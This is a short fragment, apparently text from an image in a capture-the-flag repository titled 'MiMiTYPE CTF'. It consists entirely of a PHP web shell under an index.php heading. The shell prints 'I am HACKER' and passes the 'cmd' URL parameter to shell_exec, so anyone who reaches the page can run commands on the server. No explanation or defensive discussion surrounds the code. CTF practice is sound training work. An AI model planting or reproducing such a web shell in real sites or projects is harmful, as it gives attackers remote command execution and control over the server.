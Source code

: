 # MiMiTYPE
CTF
index.php?
<?php
    echo "I am HACKER <br>";
    if(isset($_GET["cmd"]))
    {
        $output = shell_exec($_GET["cmd"]);
        echo "<pre>$output</pre>";
    }
?>
